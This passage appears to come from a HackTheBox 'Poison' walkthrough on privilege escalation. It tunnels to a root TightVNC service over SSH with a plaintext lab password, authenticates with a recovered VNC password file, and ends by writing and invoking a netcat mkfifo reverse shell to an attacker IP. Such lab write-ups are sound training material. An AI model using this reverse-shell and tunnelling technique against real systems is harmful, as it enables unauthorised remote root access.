 	┌──(root💀kali)-[~/htb/poison/10.10.10.84/loot]
	└─# cat secret
	��[|Ֆz!
	```
	- Unsure what kind of file is that, lets further enumerate the machine
4. Found something interesting w/ `linpeas.sh`
	![]({{ page.img_path }}Pasted%20image%2020220831210339.png)
	- `tightvnc` - running as `root`
		- `TightVNC` is a free remote desktop application
5. Next, we look at `LISTENING` ports on `poison.htb`
	![]({{ page.img_path }}Pasted%20image%2020220831210748.png)
	- `poison.htb` is `LISTENING` on port `5801,5901`, locally (`127.0.0.1`)
		- `127.0.0.1:5801`
		- `127.0.0.1:5901`
		- [`VNC` ports](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc)
6. In order to access VNC from our kali, we have to do port forwarding w/ `SSH Tunnel`
	```
	┌──(root💀kali)-[~/htb/poison]
	└─# sshpass -p 'Charix!2#4%6&8(0' ssh -L5801:127.0.0.1:5801 -L5901:127.0.0.1:5901 charix@$ip
	```
	- On `kali`, port 5801 is forwarded to `poison.htb` on port 5801
	- On `kali`, port 5901 is forwarded to `poison.htb` on port 5901
7. Check if `kali` is listening
	```
	┌──(root💀kali)-[~/htb/poison/10.10.10.84/exploit]
	└─# nmap localhost -p 5801,5901
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-31 21:57 +08
	Nmap scan report for localhost (127.0.0.1)
	Host is up (0.000043s latency).
	Other addresses for localhost (not scanned): ::1
	
	PORT     STATE SERVICE
	5801/tcp open  vnc-http-1
	5901/tcp open  vnc-1
	```
8. Access `VNC`
	```
	┌──(root💀kali)-[~/htb/poison/10.10.10.84/loot]
	└─# vncviewer 127.0.0.1:5901
	Connected to RFB server, using protocol version 3.8
	Enabling TightVNC protocol extensions
	Performing standard VNC authentication
	Password: 
	Authentication failed
	```
	- Requires password
	- `-passwd <PASSWD-FILENAME> (standard VNC authentication)`
9. Access `VNC`, specifying `secret` file from earlier as its `passwd` file
	```
	┌──(root💀kali)-[~/htb/poison/10.10.10.84/loot]
	└─# vncviewer -passwd secret 127.0.0.1:5901
	```
	![]({{ page.img_path }}Pasted%20image%2020220831220426.png)
10. Create reverse shell payload
	```
	charix@Poison:/tmp % echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 4444 >/tmp/f" > /tmp/exploit
	```
11. Invoke reverse shell
	```
	/tmp/exploit
	```